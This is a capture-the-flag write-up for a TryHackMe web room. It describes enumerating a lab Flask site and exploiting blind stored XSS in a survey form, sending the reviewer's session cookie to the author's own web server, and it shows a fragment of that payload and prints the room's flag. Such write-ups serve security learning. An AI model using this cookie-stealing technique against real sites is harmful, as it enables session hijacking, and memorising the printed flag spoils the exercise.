


---
tags:
  - tryhackme
  - room
  - easy
  - offensive
  - web
  - xss
---

# Cupid's Matchmaker

**Platform:** TryHackMe  
**Type:** Room  
**Difficulty:** Easy  
**Link:** [Cupid's Matchmaker](https://tryhackme.com/room/lafb2026e3)

## Description
*Use your web exploitation skills against this matchmaking service.*

"Tired of soulless AI algorithms? At Cupid's Matchmaker, real humans read your personality survey and personally match you with compatible singles. Our dedicated matchmaking team reviews every submission to ensure you find true love this Valentine's Day! 💘No algorithms. No AI. Just genuine human connection

You can access the web app here: http://MACHINE_IP:5000"

## Enumeration
Given the challenge description, I went straight in for website enumeration. I used my go-to `ffuf` command to enumerate the website:  
`ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c`. Nothing much interesting here - there's a login page uncovered but with no clue of a username, I shelved that for the time being:  
  

Inspection of the source code for the only three discovered pages didn't turn up anything useful and there was no `robots.txt` file. As a final initial enumeration step, I ran an `nmap` service scan against the port to check versioning but there didn't appear to be anything useful for exploitation here. It did reveal that I was working with a Flask server:  
  

Knowing that this was a Flask server, I considered it possible that there was SQLi involved. As a quick and dirty test, I put a `'` in both of the fields on the login page and got back a flat "Invalid credentials" warning, rather than a SQL error. With that in mind, I moved to the only other place that interaction with the site was possible - the "Survey" page.  

A quick test submission of the form resulted in a message from the application to say that a member of staff would review the form submitted. With that in mind, and having seen that the form contents were not being stored anywhere accessible to me as an unauthenticated user, I decided to test for blind stored XSS vulnerability. There are mounds of resources available that explain XSS much better than I can so I won't do that here. I will however explain why that particular type of XSS makes sense here:  

- As mentioned, the application has advised that another user will be reviewing the contents of the form that is submitted. This is where the "stored" bit comes from - the attack needs to persist in the form for when the reviewer's browser renders it.  
- Once the form is submitted, I lose visibility of it entirely. This is the "blind" part of the attack, and means I need to have the payload execute a command that does something more than display a message on the reviewer's screen (e.g., like with an `<alert>` tag) and instead have it pass sensitive information from the reviewer's session to somewhere that I can see it.  

With those two points in mind, I decided to use a payload from [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html#retrieve-cookies) with the intention of having the reviewer's session cookie sent to an HTTP server I was hosting on my attacking machine:  
`/?c="+document.cookie>`  

After initiating a Python web server on my attacking machine, I entered the payload into each of the boxes on the "Survey" form (for speed - if I was being thorough, it would have been beneficial to figure out which field was vulnerable) and got a hit instantly back in my web server, which surprisingly contained the flag:  
  
??? success "What is the flag?"
		THM{XSS_CuP1d_Str1k3s_Ag41n}

**Date completed:** 15/02/26  
**Date published:** 17/02/26